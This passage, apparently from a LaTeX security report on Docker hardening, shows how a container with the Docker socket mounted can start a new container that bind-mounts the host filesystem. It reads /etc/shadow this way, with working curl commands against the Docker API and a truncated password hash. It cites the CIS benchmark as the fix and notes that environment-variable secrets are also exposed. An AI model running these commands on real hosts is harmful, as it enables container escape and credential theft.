 \hfill

Lets say we want to get the password hash of an user called \lstinline{admin} on the host. We are in a container that has access to \lstinline{/var/run/docker.sock}. We use the API to start another Docker container on the host, that has access to the password hash (located in \lstinline{/etc/shadow}). We read the password file, by looking at the logs of the container that we just started.

\begin{lstlisting}
(host)$ docker run -it --rm -v /var/run/docker.sock:/var/run/docker.sock ubuntu /bin/bash
(cont)# curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"ubuntu:latest","Cmd":["cat", "/host/etc/shadow"],"Mounts":[{"Type":"bind","Source":"/","Target":"/host"}]}' "http://localhost/containers/create?name=escape"
...
(cont)# curl -XPOST --unix-socket /var/run/docker.sock "http://localhost/containers/escape/start"
(cont)# curl --output - --unix-socket /var/run/docker.sock "http://localhost/containers/escape/logs?stdout=true"
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
...
(cont)# curl -XDELETE --unix-socket /var/run/docker.sock "http://localhost/containers/escape"
\end{lstlisting}

\hfill

This is also covered by CIS Benchmark guideline 5.31 (Ensure that the Docker socket is not mounted inside any containers).

\subsubsection{Sensitive Information}

When a container has access to \lstinline{/var/run/docker.sock} (i.e.\ when \lstinline{/var/run/docker.sock} is added as volume inside the container), it cannot only start new containers but it can also look at the configuration of existing containers. This configuration might contain sensitive information (e.g.\ passwords in the environment variables).

\hfill

Lets start a Postgres\footnote{\url{https://www.postgresql.org/}} database inside a Docker. From the documentation of the Postgres Docker image\footnote{\url{https://hub.docker.com/_/postgres}}, we know that we can provide a password using the \lstinline{POSTGRES_PASSWORD} environment variable. If we have access to another container which has access to the Docker API, we can read that password from the environment variable.

